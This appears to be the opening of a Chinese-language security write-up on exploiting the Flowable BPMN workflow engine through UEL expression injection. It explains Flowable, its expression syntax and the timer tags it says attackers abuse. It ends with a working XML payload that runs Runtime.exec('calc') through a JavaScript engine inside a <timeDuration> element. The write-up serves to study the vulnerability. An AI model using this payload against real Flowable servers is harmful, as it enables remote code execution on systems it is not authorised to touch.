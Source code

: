 Flowable简介
----------

Flowable 是一个用 Java 编写的轻量级业务流程引擎。Flowable 流程引擎允许您部署 BPMN 2.0 流程定义（用于定义流程的行业 XML 标准）、创建这些流程定义的流程实例、运行查询、访问活动或历史流程实例和相关数据等等。

在将 Flowable 添加到您的应用程序/服务/架构中时，它非常灵活。您可以通过包含以 JAR 形式提供的 Flowable 库将引擎*嵌入*到您的应用程序或服务中。由于它是一个 JAR，因此您可以轻松地将其添加到任何 Java 环境中：Java SE；servlet 容器，例如 Tomcat 或 Jetty、Spring；Java EE 服务器，例如 JBoss 或 WebSphere 等等。或者，您可以使用 Flowable REST API 通过 HTTP 进行通信。还有几个 Flowable 应用程序（Flowable Modeler、Flowable Admin、Flowable IDM 和 Flowable Task），它们提供了用于处理流程和任务的现成示例 UI。

所有设置 Flowable 的方法都具有核心引擎，它可以看作是一组服务，这些服务公开 API 来管理和执行业务流程。

### Flowable 和 Activiti

Flowable 是 Activiti（Alfresco 的注册商标）的一个分支。这两个其实区别不大，可能在标签名称上会有一些变化，但造成漏洞的点基本相同。

### 环境搭建

环境搭建的具体步骤参见下面的链接  
[SpringBoot + Flowable并集成ui](https://mp.weixin.qq.com/s/yDUHeD8O1mLbNKXeV1wZbA)

### 表达式

Flowable 使用[统一表达式语言 (UEL)](https://javaee.github.io/tutorial/jsf-el.html)来解析表达式。UEL 的文档是语法和可用运算符的良好参考。每个表达式都以 开头`${`并以 结尾`}`。

表达式有两种类型：

- **值表达式**提供一个值。支持的值包括布尔值、字符串、整数、浮点数和 null。典型的值表达式是`${variable.property}`或`${bean.property}`。
- **方法表达式**可以调用带参数或不带参数的方法。方法表达式的一个示例是`${bean.setPropertyValue('newValue')}`。要区分值表达式和不带任何参数的方法表达式，请在方法调用末尾使用空括号。例如，`${variable.toString()}`。

理论上，任何暴露给应用程序的 Spring bean 都可以用于后端表达式，但并非所有类都能以允许正确表达式评估的方式进行序列化。

标签简介
----

介绍一些常用于漏洞利用的标签

### `<timerEventDefinition>`

- **用途**: `<timerEventDefinition>` 标签用于定义一个定时器事件。它可以在多种场景中使用，如中间定时器事件、边界定时器事件、开始定时器事件等。
- **场景**: 
    - **开始事件**: 定时器事件可以作为流程的开始事件，表示流程将在特定时间或间隔后启动。
    - **中间事件**: 定时器事件可以用作中间事件，表示流程需要等待一段时间后继续执行。
    - **边界事件**: 定时器事件可以附加到某个活动（如用户任务）上，表示在指定时间后触发特定行为（如任务超时处理）。

#### `<timeDuration>`

- **用途**: `<timeDuration>` 标签定义了一个时间间隔，用于指定定时器触发的延迟时间。这是 `ISO-8601` 标准格式的字符串，表示一个时间段，例如 `PT5M` 表示 5 分钟。同时支持表达式方式

```xml
<!-- 处于startEvent标签中 -->
<timerEventDefinition>
    <timeDuration>
       ${"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval('function test(){ return java.lang.Runtime};r=test();r.getRuntime().exec(\'calc\')')}
    </timeDuration>
</timerEventDefinition>
```
